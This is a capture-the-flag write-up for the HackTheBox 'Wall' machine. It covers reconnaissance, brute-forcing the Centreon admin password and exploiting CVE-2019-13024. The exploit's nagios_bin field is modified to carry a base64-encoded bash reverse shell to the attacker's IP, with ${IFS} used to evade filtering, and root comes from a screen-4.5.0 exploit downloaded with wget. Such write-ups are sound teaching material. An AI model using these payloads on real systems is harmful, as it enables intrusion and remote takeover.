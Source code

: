 ```yaml
---
title: "Wall - HackTheBox"
date: 2019-12-07T17:00:00+02:00
tags: []
---
```


## Information gathering

Let's start with a port scan:
```
$ nmap -A -T4 10.10.10.157
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-20 19:40 EDT
Nmap scan report for 10.10.10.157
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.53 seconds
```

The web server has the Apache's default homepage.

Running a quick discovery gives us some pages to visit:
```
$ gobuster dir -q -t 40 -w raft-medium-files.txt -u http://10.10.10.157
/index.html (Status: 200)
/panel.php (Status: 200)
/wp-forum.phps (Status: 403)
/aa.php (Status: 200)
```

```
$ gobuster dir -q -t 40 -w raft-medium-directories.txt -u http://10.10.10.157
/monitoring (Status: 401)
/server-status (Status: 403)
```

## Exploration

`/aa.php` and `/panel.php` do not contain anything useful and `/monitoring` is
protected by HTTP basic authentication, which I tried to bruteforce with no
success. After a bit of tinkering, I found that making a `POST` request to
`/monitoring` redirects you to a page containing a link to `/centreon`:

```
$ curl -X POST -L http://10.10.10.157/monitoring
<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Visiting `/centreon` we find ourselves in front of a login form for the Centreon
platform, which is a system monitoring tool:

![](/images/hackthebox/wall/centreon.png)

Let's try to login with a random username and password, and intercept the
request with Burp:
![](/images/hackthebox/wall/login.png)

The login process uses a token that changes with every request, so we can not
use hydra to do a bruteforce. We might write a script that fetches the token and
makes the login request, but whenever I stumble upon new web applications, I
like to learn how the mechanisms behind them are implemented. Centreon, in this
case, have an API that can be used to authenticate users and get a token. We can
then use wfuzz to find valid combination of username and password.

Before we launch the bruteforce, let's check if the API endpoint is up and
running:
```
$ curl -d "username=test&password=test" "http://10.10.10.157/centreon/api/index.php?action=authenticate"
"Bad credentials"
```

Ok, the authentication API works. A quick search tells us that the default
username on Centreon is `admin`, so let's start a bruteforce on that:

```
$ wfuzz -c --hc 403  -w probable-v2-top1575.txt -d 'username=admin&password=FUZZ' "http://10.10.10.157/centreon/api/index.php?action=authenticate"
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 1575

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000048:   200        0 L      1 W      61 Ch       "password1"

Total time: 12.86365
Processed Requests: 1575
Filtered Requests: 1574
Requests/sec.: 122.4380
```

Nice! Look's like admin's password is `password1`! Let's use it to login.

## Exploiting

Here is the panel after logging in:
![](/images/hackthebox/wall/panel.png)
The menu on the right of the Centreon panel allows us to discover it's version
by going on Administration > About, and it's 19.04.0 commit `f2a106936`.

A search on Google immediately points us toward a remote code execution
identified by `CVE-2019-13024`:

> Centreon 18.x before 18.10.6, 19.x before 19.04.3, and Centreon web before
> 2.8.29 allows the attacker to execute arbitrary system commands by using the
> value "init_script"-"Monitoring Engine Binary" in main.get.php to insert a
> arbitrary command into the database, and execute it by calling the vulnerable
> page www/include/configuration/configGenerate/xml/generateFiles.php (which
> passes the inserted value to the database to shell_exec without sanitizing it,
> allowing one to execute system arbitrary commands).

The identification code for the exploit is `47069` on exploit-db, so let's
download it with `searchsploit -m 47069`. Let's have a look at the payload
section:
```python
payload_info = {
    "name": "Central",
    "ns_ip_address": "127.0.0.1",
    # this value should be 1 always
    "localhost[localhost]": "1",
    "is_default[is_default]": "0",
    "remote_id": "",
    "ssh_port": "22",
    "init_script": "centengine",
    # this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1} #".format(ip, port),
    "nagiostats_bin": "/usr/sbin/centenginestats",
    "nagios_perfdata": "/var/log/centreon-engine/service-perfdata",
    "centreonbroker_cfg_path": "/etc/centreon-broker",
    "centreonbroker_module_path": "/usr/share/centreon/lib/centreon-broker",
    "centreonbroker_logs_path": "",
    "centreonconnector_path": "/usr/lib64/centreon-connector",
    "init_script_centreontrapd": "centreontrapd",
    "snmp_trapd_path_conf": "/etc/snmp/centreon_traps/",
    "ns_activate[ns_activate]": "1",
    "submitC": "Save",
    "id": "1",
    "o": "c",
    "centreon_token": poller_token,
}
```

The `nagios_bin` field is the one that will be executed on the server.  The
first thing to do is to launch a netcat listener on our machine with `nc -lnvp
1337`.  

The first thing that we should do is to change all the URLs in the script by
prepending `/centreon` to them, as this is the location that it's installed to
on the machine.


Launching the exploit with our ip address and port, to get a reverse shell, does
not work, because there might be some characters that are not allowed in the
command. Let's try to create a string that could bypass the protections.  
We can encode with base64 our command to avoid using characters like `>` and
`&`:
```
$ echo -n "/bin/bash -i >& /dev/tcp/10.10.14.4/1337 0>&1" | base64
L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx
```

I used a bash reverse shell command to connect to our netcat listener because I
don't know which is the version of it on the server (if present at all), as the
syntax may vary from one to another.

Ok, now we have a base64 encoded reverse shell command. Let's add the decoding
command and pipe the result in bash:
```
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | sh
```

Now let's set `nagios_bin` to use this command and remove the `.format(ip,
port)` as it's not needed anymore:
```
"nagios_bin": "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx | base64 -d | bash",
```

It still does not work, probably because of white spaces, so let's replace them with `${IFS}`:
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash",
```

This still does not work, probably because of some sort of command concatenation
error, so let's add a `;` after the bash command
```
"nagios_bin": "echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjQvMTMzNyAwPiYx|base64${IFS}-d|bash;",
```

This time we finally have a connection from the server, so the exploit worked!

```
$ nc -lnvp 1337
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

## Privilege escalation
At first I saw this message `[+] We can connect to the local MYSQL service as
'root' and without a password!` and I tried to use mysql to get a shell, but I
could not get a stable output because of the shell running on netcat. I
continued reading LinEnum's output and I found an unusual executable in the
`SUID` files section:
![](/images/hackthebox/wall/linenum.png)

It is `screen-4.5.0`, and luckily, there's a handy local root exploit on
[exploit-db](https://www.exploit-db.com/exploits/41154). After downloading it on
our machine, let's start a web server with `python -m http.server 8080` and
let's download it on the remote machine with `wget
http://10.10.14.4:8080/41154.sh`. Just run it and a couple of seconds later we should
have a root shell! Let's read the flags:

```
$ wc -c /home/shelby/user.txt
33 /home/shelby/user.txt

$ wc -c /root/root.txt
33 /root/root.txt
```

I really couldn't find a way from `www-data` to `shelby`, except for some hashes
in `/etc/shadow` but I couldn't crack them, I guess I'll wait for Ippsec's
writeup!

Thanks for reading!

